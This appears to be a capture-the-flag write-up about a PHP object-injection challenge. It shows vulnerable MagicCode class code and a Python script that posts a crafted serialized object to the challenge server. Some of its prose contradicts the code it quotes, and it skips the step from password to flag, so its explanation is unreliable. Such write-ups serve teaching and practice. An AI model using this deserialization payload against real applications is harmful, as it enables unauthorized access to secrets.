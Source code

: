 # Serialize (Web)

This challenge deserves highlighting because it required absolutely no guessing.

We have to deal with the following PHP code:

```php
<?php


class MagicCode {
    private $command;
    private $commandArgs;

    public function __construct($command, $commandArgs) {
        $this->command = $command;
        $this->commandArgs = $commandArgs;
    }

    function __wakeup() {
        foreach($this->commandArgs as $k => $v) {
            $this->commandArgs[$k] = $this->__clearArgs($v);
        }
    }

    function __clearArgs($v) {
        return trim($v);
    }

    function __die($text) {
        die(json_encode(array("text" => $text)));
    }

    function __destruct() {
        if (in_array($this->command, array("print", "showFlag", "showSource"))) {
            @call_user_func_array(array($this, "__" . $this->command), $this->commandArgs);
        } else {
            $this->__die("What do you do?");
        }
    }

    function __print() {
        global $PASSWORD;
        list($showPassword) = func_get_args();
        if ($showPassword == $this->__pack()) {
            $this->__die($PASSWORD);
        }
        $this->__die("Nothing to do. Just passing by.");
    }

    function __pack() {
        return pack("H*", "766676433466787856624046542574234161323453457431525177336325");
    }

    function __showFlag() {
        global $PASSWORD;
        global $FLAG;
        list($password) = func_get_args();
        if ($password === $PASSWORD) {
            $this->__die($FLAG);
        }
        $this->__die("Try again.");
    }

    function __showSource() {
        highlight_file(__FILE__);
    }
}
```

In the last line of code (that I somehow didn't copy), the POST data sent by the user is base64 decoded and unserialized.

It's obvious what to do here: we need to craft a MagicCode object.
The __destruct() method will be called by the runtime, and we will get a limited RCE on the server. In fact, it's enough to change `command` variable to `showFlag` to get "password" and `showSource` to get the flag.

Crafting PHP serialized payloads is relatively easy because the serialization format is human readable and not very complicated. I crafted the following by hand (although in retrospect, I should've just used the code provided and serialize() function):

```python
import requests

payload = '''O:9:"MagicCode":2:{s:18:"\x00MagicCode\x00command";s:5:"print";s:22:"\x00MagicCode\x00commandArgs";a:1:{i:0;s:30:"vfvC4fxxVb@FT%t#Aa24SEt1RQw3c%";}}'''

r = requests.post("https://magic-code.scs.ctf/", verify=False, data={"data": payload.encode('base64')})

print r.content
```

And this was enough to get the flag.